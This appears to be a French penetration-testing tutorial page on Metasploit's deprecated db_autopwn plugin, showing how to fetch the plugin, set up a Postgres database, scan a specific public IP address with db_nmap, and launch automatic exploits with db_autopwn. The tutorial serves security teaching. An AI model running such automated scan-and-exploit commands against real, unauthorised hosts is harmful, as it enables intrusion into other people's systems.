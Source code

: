 **db\_autopwn**

Le module db\_autopwn peut être utilisé pour le port scanning et la connexion aux ordinateurs en utilisant Nmap \(db\_nmap\), tous les résultats sont entrés dans une base de données Postgres.

Suivant les ports ouverts découverts par le scan, Metasploit exécute automatiquement des exploits contre ces machines.

db\_autopwn n’est plus géré par Metasploit mais il est toujours possible de l’utiliser.

Il nous faudra récupérer db\_autopwn.rb sur Internet : [https://github.com/jeffbryner/kinectasploit/blob/master/db\_autopwn.rb](https://github.com/jeffbryner/kinectasploit/blob/master/db_autopwn.rb)

Nous sauvegarderons ce programme dans /pentest/exploits/framework/plugins/db\_autopwn.rb :

```text

root@bt:~# su postgres  
sh-4.1$ psql  
could not change directory to "/root"  
psql (8.4.8)  
Type "help" for help.  
postgres=# create user test with password 'test';  
CREATE ROLE  
postgres=# create database cdaisi_db;  
CREATE DATABASE  
postgres=# 
```

```text

msfconsole  
db_connect test:test@127.0.0.1/cdaisi_db  
db_nmap 213.136.96.12  
load db_autopwn  
db_autopwn -t -p -e -s -b
```

```text

framework3 # ./start-db_autopwn  
The files belonging to this database system will be owned by user 
"postgres".  
This user must also own the server process.  
The database cluster will be initialized with locale C.  
creating directory /home/postgres/metasploit3 ... ok  
creating directory /home/postgres/metasploit3/global ... ok  
...  
initializing dependencies ... ok  
creating system views ... ok  
loading pg_description ... ok  
creating conversions ... ok  
setting privileges on built-in objects ... ok  
creating information schema ... ok  
vacuuming database template1 ... ok  
copying template1 to template0 ... ok  
copying template1 to postgres ... ok  
WARNING: enabling "trust" authentication for local connections  
You can change this by editing pg_hba.conf or using the -A option 
the next time you run initdb.  
Success. You can now start the database server using:  
postmaster -D /home/postgres/metasploit3  
or pg_ctl -D /home/postgres/metasploit3 -l logfile start  
postmaster starting  
[**************************************************************] 
[*] Postgres should be setup now. To run db_autopwn, please:  
[*] # su - postgres[*] # cd /home/fasm/framework3  
{*] # ./msfconsole  
```